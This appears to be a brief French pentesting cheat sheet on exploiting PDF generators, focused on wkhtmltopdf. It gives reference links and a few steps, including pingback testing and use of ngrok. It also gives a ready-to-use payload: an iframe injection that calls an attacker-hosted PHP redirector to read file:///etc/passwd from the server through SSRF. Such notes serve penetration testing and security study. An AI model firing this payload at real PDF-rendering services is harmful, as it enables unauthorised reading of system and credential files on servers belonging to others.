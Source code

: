 # Exploitation de PDF

> Tips pour l'exploitation des générateurs de PDF



### 1. wkhtmltopdf

> Liens très intéressants :
>
> - http://hassankhanyusufzai.com/SSRF-to-LFI/
> - https://www.virtuesecurity.com/kb/wkhtmltopdf-file-inclusion-vulnerability-2/
> - https://github.com/wkhtmltopdf/wkhtmltopdf/issues/3570
> - https://docs.google.com/presentation/d/1JdIjHHPsFSgLbaJcHmMkE904jmwPM4xdhEuwhy2ebvo/htmlpresent

- Tenter d'envoyer une URL pingback (e.g. collaborateur burp) 

- Regarder l'user agent
- Si on a la technologie divulguée et si c'est `wkhtmltopdf`, probablement vulnérable aux SSRF (voir aux LFI via SSRF)
- Dans ce cas, utiliser ngrok
- Exemple de payload : `"><iframe src=http://ngrok/test.php?url=file:///etc/passwd></iframe>"` avec `test.php` : `<?php header('location:file://'.$_REQUEST['url']); ?>`
